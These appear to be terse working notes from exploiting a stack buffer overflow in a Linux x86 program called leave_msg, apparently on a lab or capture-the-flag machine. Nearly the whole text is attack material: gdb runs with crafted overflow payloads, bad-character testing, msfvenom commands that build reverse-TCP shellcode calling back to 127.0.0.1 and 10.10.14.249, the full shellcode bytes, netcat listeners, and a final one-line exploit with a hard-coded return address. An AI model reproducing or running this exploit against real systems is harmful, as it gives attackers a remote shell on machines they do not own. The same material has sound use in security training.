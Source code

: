 buffer: 2060
eip: 4


run $(python3 -c "import os; os.write(1, b'\x55'*2064)")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()


buffer: 2064
chars: 256
eip: 4
run $(python3 -c "import os; os.write(1, b'\x55'*(2064-256-4) + b'\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' +b'\x66'*4)")


remove null byte \x00 \x09 \x0a \x20
buffer = 2064
char = 252
eip = 4
run $(python3 -c "import os; os.write(1, b'\x55'*(2064 - 252 - 4) + b'\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' +b'\x66'*4)")


msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
 cat shellcode 
unsigned char buf[] = 
"\xda\xd2\xd9\x74\x24\xf4\xba\x7e\xc3\xd2\xd2\x58\x2b\xc9"
"\xb1\x12\x31\x50\x17\x83\xe8\xfc\x03\x2e\xd0\x30\x27\xff"
"\x0d\x43\x2b\xac\xf2\xff\xc6\x50\x7c\x1e\xa6\x32\xb3\x61"
"\x54\xe3\xfb\x5d\x96\x93\xb5\xd8\xd1\xfb\x3a\x1b\x22\xfa"
"\xac\x19\x22\x86\x45\x97\xc3\xc6\xf0\xf7\x52\x75\x4e\xf4"
"\xdd\x98\x7d\x7b\x8f\x32\x10\x53\x43\xaa\x84\x84\x8c\x48"
"\x3c\x52\x31\xde\xed\xed\x57\x6e\x1a\x23\x17";



Buffer = "\x55" * (2064 - 124 - 95 - 4) = 1837
NOPs = "\x90" * 124
Shellcode = 95
EIP = "\x66" * 4'
run $(python3 -c 'import os; os.write(1, b"\x55" * (2064 - 124 - 95 - 4) + b"\x90" * 124 + b"\xda\xd2\xd9\x74\x24\xf4\xba\x7e\xc3\xd2\xd2\x58\x2b\xc9\xb1\x12\x31\x50\x17\x83\xe8\xfc\x03\x2e\xd0\x30\x27\xff\x0d\x43\x2b\xac\xf2\xff\xc6\x50\x7c\x1e\xa6\x32\xb3\x61\x54\xe3\xfb\x5d\x96\x93\xb5\xd8\xd1\xfb\x3a\x1b\x22\xfa\xac\x19\x22\x86\x45\x97\xc3\xc6\xf0\xf7\x52\x75\x4e\xf4\xdd\x98\x7d\x7b\x8f\x32\x10\x53\x43\xaa\x84\x84\x8c\x48\x3c\x52\x31\xde\xed\xed\x57\x6e\x1a\x23\x17" + b"\x66" * 4)')

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()



nc -lvnp 31337

run $(python3 -c 'import os; os.write(1, b"\x55" * (2064 - 124 - 95 - 4) + b"\x90" * 124 + b"\xda\xd2\xd9\x74\x24\xf4\xba\x7e\xc3\xd2\xd2\x58\x2b\xc9\xb1\x12\x31\x50\x17\x83\xe8\xfc\x03\x2e\xd0\x30\x27\xff\x0d\x43\x2b\xac\xf2\xff\xc6\x50\x7c\x1e\xa6\x32\xb3\x61\x54\xe3\xfb\x5d\x96\x93\xb5\xd8\xd1\xfb\x3a\x1b\x22\xfa\xac\x19\x22\x86\x45\x97\xc3\xc6\xf0\xf7\x52\x75\x4e\xf4\xdd\x98\x7d\x7b\x8f\x32\x10\x53\x43\xaa\x84\x84\x8c\x48\x3c\x52\x31\xde\xed\xed\x57\x6e\x1a\x23\x17" + b"\xc0\xd2\xff\xff")')



msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.249 lport=9443 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
musti:b$ cat shellcode 
unsigned char buf[] = 
"\xdb\xc7\xd9\x74\x24\xf4\xbe\x36\x47\x47\x28\x5b\x33\xc9"
"\xb1\x12\x83\xc3\x04\x31\x73\x13\x03\x45\x54\xa5\xdd\x98"
"\x81\xde\xfd\x89\x76\x72\x68\x2f\xf0\x95\xdc\x49\xcf\xd6"
"\x8e\xcc\x7f\xe9\x7d\x6e\x36\x6f\x87\x06\xc3\x85\x79\x2f"
"\xbb\x9b\x85\xeb\xdf\x15\x64\x43\x79\x76\x36\xf0\x35\x75"
"\x31\x17\xf4\xfa\x13\xbf\x69\xd4\xe0\x57\x1e\x05\x28\xc5"
"\xb7\xd0\xd5\x5b\x1b\x6a\xf8\xeb\x90\xa1\x7b";


Buffer = "\x55" * (2064 - 124 - 95 - 4) = 1837
NOPs = "\x90" * 124
Shellcode = 95
EIP = "\x66" * 4'
run $(python3 -c 'import os; os.write(1, b"\x55" * (2064 - 124 - 95 - 4) + b"\x90" * 124 + b"\xdb\xc7\xd9\x74\x24\xf4\xbe\x36\x47\x47\x28\x5b\x33\xc9\xb1\x12\x83\xc3\x04\x31\x73\x13\x03\x45\x54\xa5\xdd\x98\x81\xde\xfd\x89\x76\x72\x68\x2f\xf0\x95\xdc\x49\xcf\xd6\x8e\xcc\x7f\xe9\x7d\x6e\x36\x6f\x87\x06\xc3\x85\x79\x2f\xbb\x9b\x85\xeb\xdf\x15\x64\x43\x79\x76\x36\xf0\x35\x75\x31\x17\xf4\xfa\x13\xbf\x69\xd4\xe0\x57\x1e\x05\x28\xc5\xb7\xd0\xd5\x5b\x1b\x6a\xf8\xeb\x90\xa1\x7b" + b"\x66" * 4)')

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

x/2000xb $esp+1000


nc -lvnp 9443

0xffffd690
./leave_msg $(python3 -c 'import os; os.write(1, b"\x55" * (2064 - 124 - 95 - 4) + b"\x90" * 124 + b"\xdb\xc7\xd9\x74\x24\xf4\xbe\x36\x47\x47\x28\x5b\x33\xc9\xb1\x12\x83\xc3\x04\x31\x73\x13\x03\x45\x54\xa5\xdd\x98\x81\xde\xfd\x89\x76\x72\x68\x2f\xf0\x95\xdc\x49\xcf\xd6\x8e\xcc\x7f\xe9\x7d\x6e\x36\x6f\x87\x06\xc3\x85\x79\x2f\xbb\x9b\x85\xeb\xdf\x15\x64\x43\x79\x76\x36\xf0\x35\x75\x31\x17\xf4\xfa\x13\xbf\x69\xd4\xe0\x57\x1e\x05\x28\xc5\xb7\xd0\xd5\x5b\x1b\x6a\xf8\xeb\x90\xa1\x7b" + b"\x90\xd6\xff\xff")')



















